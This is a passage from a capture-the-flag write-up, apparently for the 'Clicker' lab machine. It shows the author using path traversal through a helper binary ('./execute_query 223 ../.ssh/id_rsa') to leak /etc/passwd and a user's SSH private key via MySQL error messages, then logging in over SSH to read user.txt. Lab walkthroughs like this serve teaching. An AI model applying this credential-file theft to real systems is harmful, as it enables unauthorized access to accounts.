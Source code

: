     ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ' at line 1
    

I can also get jack’s SSH private key:

    
    
    www-data@clicker:/opt/manage$ ./execute_query 223 ../.ssh/id_rsa     
    mysql: [Warning] Using a password on the command line interface can be insecure.
    --------------
    -----BEGIN OPENSSH PRIVATE KEY---
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
    ...[snip]...
    LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
    lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
    -----END OPENSSH PRIVATE KEY---
    --------------
    
    ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
    

### SSH

Interestingly, if I try to use this key just as is, I get:

    
    
    oxdf@hacky$ ssh -i ~/keys/clicker-jack jack@clicker.htb
    Load key "/home/oxdf/keys/clicker-jack": error in libcrypto
    jack@clicker.htb's password: 
    

I’ll have to add two “-“ to the first and last line from the key (no idea why
those got truncated), and then it works:

    
    
    oxdf@hacky$ ssh -i ~/keys/clicker-jack jack@clicker.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
    ...[snip]...
    jack@clicker:~$ 
    

And I can get `user.txt`:

    
    
    jack@clicker:~$ cat user.txt
    fa528539************************
    

## Shell as root

### Enumeration
